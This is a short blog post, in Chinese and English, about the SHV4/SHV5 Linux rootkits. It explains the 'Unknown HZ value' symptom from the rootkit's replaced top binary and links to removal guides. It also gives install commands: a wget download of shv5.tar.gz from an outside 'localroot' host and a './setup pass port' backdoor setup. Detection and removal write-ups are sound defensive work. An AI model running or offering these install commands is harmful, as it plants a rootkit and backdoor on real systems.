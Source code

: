 ```yaml
---
layout: post
title: "SHV5/SHV4 rootkit"
description: ""
category: 渗透测试
tags: [rootkit]
---
```

{% include JB/setup %}

##  发现痕迹##
On RHEL or Centos 4 or 5, If you run the linux command top and you see something like: 

"Unknown HZ value! (75) Assume 100" 

Yours might not say "75" -- it could be any number. 
If you see this, you should run rkhunter immediately, because your box has probably been taken over by a rootkit -- either SHV4 or SHV5. 

The only reason you see this clue "Unknown HZ value" is because the rootkit replaces the top command (among others) with a substitute top command that will hide its processes. Their replacement top is old (version 1.2) and cannot handle the HZ value of the 2.6 linux kernel. 
Sad to say, but if this happens to you, its time to reinstall your OS!


!!测试发现第一次安装shv5的时候,ls不会有出错信息,用脚本将rootkit清理一遍,当然不彻底,虽然rootkit失效了,但是有些残留.再次安装ls就会出现错误提示了.

## shv5安装 ##

	wget http://baributz.hourb.com/localroot/shv5.tar.gz
	tar zxvf shv5.tar.gz
	cd shv5
	./setup pass port



## 参考资料 ##

http://www.kentoyer.com/2009/12/21/removing-the-shv5-rootkit/

http://www.jigsawboys.com/2008/06/01/lead-story-test/

http://serverfault.com/questions/524723/how-can-i-remove-shv4-shv5-rootkits

http://blog.hostonnet.com/shv5-rootkit

http://www.huweb.hu/maques/mblog/?p=153

http://blog.wgzhao.com/2009/09/14/shv4-rootkit/

http://blog.evilcoder.net/remove-linux-shv5-rootkit/


http://web.fhnw.ch/plattformen/ns/vorlesungsunterlagen-1/network-analysis-tools/shv4-analysis

http://blog.csdn.net/cnbird2008/article/details/4553488
